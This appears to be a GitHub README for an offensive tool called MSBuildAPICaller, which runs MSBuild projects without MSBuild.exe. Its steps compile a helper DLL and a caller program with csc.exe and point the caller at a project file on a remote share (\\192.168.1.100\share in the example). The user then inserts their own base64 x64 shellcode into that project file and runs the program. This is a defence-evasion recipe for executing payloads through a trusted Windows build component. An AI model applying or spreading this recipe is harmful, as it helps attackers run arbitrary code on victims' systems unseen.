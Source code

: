 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 1: Build IEShim.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs

## Step 2: Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs
## Example: string projectPath = '\\192.168.1.100\share\msbuildapicaller.csproj';

## Step 3: Build msbuildapicaller.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs

## Step 4: Replace <Base64 Encoded x64 Shellcode>  with your base64 encoded x64 shellcode in msbuildapicaller.csproj

## Step 5: Replace AssemblyFile variable with the location of your compiled dll from step 1

## Step 6: Execute msbuildapicaller.exe
